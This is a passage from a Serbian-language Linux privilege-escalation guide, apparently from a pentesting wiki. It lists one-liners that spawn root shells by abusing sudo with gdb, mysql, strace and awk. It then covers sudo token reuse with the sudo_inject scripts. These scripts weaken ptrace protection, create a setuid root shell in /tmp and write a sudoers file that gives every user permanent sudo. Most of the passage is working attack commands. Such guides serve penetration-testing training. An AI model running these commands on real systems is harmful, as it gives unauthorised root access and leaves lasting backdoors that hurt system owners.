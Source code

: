 > gdb -nx -ex '!sh' -ex quit\
> sudo mysql -e '! /bin/sh'\
> strace -o /dev/null /bin/sh\
> sudo awk 'BEGIN {system("/bin/sh")}'

{% embed url="https://gtfobins.github.io/" %}

{% embed url="https://gtfoargs.github.io/" %}

### FallOfSudo

Ako možete pristupiti `sudo -l`, možete koristiti alat [**FallOfSudo**](https://github.com/CyberOne-Security/FallofSudo) da proverite da li pronalazi način za iskorišćavanje bilo koje sudo pravila.

### Ponovna upotreba sudo tokena

U slučajevima kada imate **sudo pristup**, ali nemate lozinku, možete eskalirati privilegije tako što ćete **sačekati izvršavanje sudo komande, a zatim preuzeti sesijski token**.

Uslovi za eskalaciju privilegija:

* Već imate ljusku kao korisnik "_sampleuser_"
* "_sampleuser_" je **koristio `sudo`** da izvrši nešto u **poslednjih 15 minuta** (podrazumevano je trajanje sudo tokena koje nam omogućava korišćenje `sudo` bez unošenja lozinke)
* `cat /proc/sys/kernel/yama/ptrace_scope` je 0
* `gdb` je dostupan (možete ga preneti)

(Možete privremeno omogućiti `ptrace_scope` sa `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` ili trajno izmeniti `/etc/sysctl.d/10-ptrace.conf` i postaviti `kernel.yama.ptrace_scope = 0`)

Ako su ispunjeni svi ovi uslovi, **možete eskalirati privilegije koristeći:** [**https://github.com/nongiach/sudo\_inject**](https://github.com/nongiach/sudo\_inject)

* **Prva eksploatacija** (`exploit.sh`) će kreirati binarni fajl `activate_sudo_token` u _/tmp_. Možete ga koristiti da **aktivirate sudo token u svojoj sesiji** (nećete automatski dobiti root ljusku, uradite `sudo su`):

```bash
bash exploit.sh
/tmp/activate_sudo_token
sudo su
```

* Drugi eksploit (`exploit_v2.sh`) će kreirati sh shell u _/tmp_ direktorijumu **vlasništvo root korisnika sa setuid privilegijama**

```bash
bash exploit_v2.sh
/tmp/sh -p
```

* **Treći eksploit** (`exploit_v3.sh`) će **kreirati sudoers fajl** koji čini **sudo token-e večnim i omogućava svim korisnicima korišćenje sudo-a**.

```bash
bash exploit_v3.sh
sudo su
```
